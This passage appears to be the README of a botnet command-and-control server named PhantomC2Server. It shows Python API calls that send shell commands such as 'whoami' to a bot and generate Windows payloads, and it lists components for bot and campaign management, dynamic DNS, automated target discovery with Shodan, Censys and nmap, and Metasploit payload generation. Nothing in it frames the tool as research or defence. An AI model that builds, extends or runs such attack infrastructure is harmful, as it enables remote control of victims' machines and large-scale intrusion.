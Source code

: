 ### API Usage

The server provides RESTful API endpoints for programmatic access:

```python
import requests

# Send command to bot
response = requests.post('https://localhost:8443/admin/commands',
    json={
        'bot_id': 'bot_123',
        'command': 'execute',
        'args': {'cmd': 'whoami'}
    },
    headers={'Authorization': 'Bearer <token>'}
)

# Generate payload
response = requests.post('https://localhost:8443/admin/payloads',
    json={
        'name': 'test_payload',
        'platform': 'windows',
        'architecture': 'x64'
    }
)
```

## Key Components

### 1. Server Core (`server.py`)
- `PhantomC2Server`: Main server class handling bot management
- Session token management
- DuckDNS integration
- Campaign execution
- Background task management

### 2. Target Discovery (`discovery.py`)
- `TargetDiscovery`: Automated target discovery
- Shodan API integration
- Censys API integration
- Network scanning with nmap
- DNS enumeration

### 3. Payload Generation (`payload_generator.py`)
- `PayloadGenerator`: Generate custom payloads
- Metasploit Framework integration
- Multi-platform support (Windows, Linux, macOS)
- Multiple payload types (EXE, DLL, ELF, etc.)

### 4. Threat Intelligence (`threat_intelligence.py`)
- `ThreatIntelligence`: Target reputation checking
- VirusTotal integration
- AbuseIPDB integration
- AlienVault OTX integration
- Bulk reputation checking
